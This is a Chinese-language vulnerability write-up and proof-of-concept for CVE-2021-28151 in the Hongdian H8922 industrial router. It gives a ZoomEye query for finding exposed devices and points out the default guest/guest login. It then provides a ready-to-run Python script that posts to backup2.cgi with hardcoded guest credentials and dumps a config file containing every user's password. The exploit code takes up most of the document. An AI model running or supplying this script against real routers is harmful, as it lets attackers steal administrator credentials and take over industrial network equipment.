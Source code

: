 # 宏电 H8922 后台管理员信息泄露漏洞 CVE-2021-28151

## 漏洞描述

宏电 H8922 后台存在管理员信息泄露漏洞，攻击者使用任意账号登录后访问特殊的Url即可获取所有用户的账号和密码

## 漏洞影响

```
宏电 H8922
```

## ZoomEye

```
app:"Hongdian H8922 Industrial Router"
```

## 漏洞复现

登录后台(存在访客用户默认账号密码 guest/guest)

漏洞存在于 backup2.cgi 文件中

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202140921362.png)

分析后可得知实际运行后将会读取 **/tmp/hdconfig/cli.conf** 配置文件

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202140921479.png)

其中配置文件中是含有所有用户密码以及敏感配置信息的

## 漏洞POC

```python
import requests
import sys
import random
import re
import base64
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mTitle  : 宏电 H8922 后台管理员信息泄露漏洞 CVE-2021-28151                  \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/backup2.cgi"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded",
        "Authorization": "Basic Z3Vlc3Q6Z3Vlc3Q="
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/backup2.cgi.... \033[0m".format(target_url))
        if 'service webadmin' in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,存在访客账号 guest/guest 成功读取配置文件 \033[0m".format(target_url))
            print("\033[36m[o] 响应为:\n{} \033[0m".format(response.text))
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202140921653.png)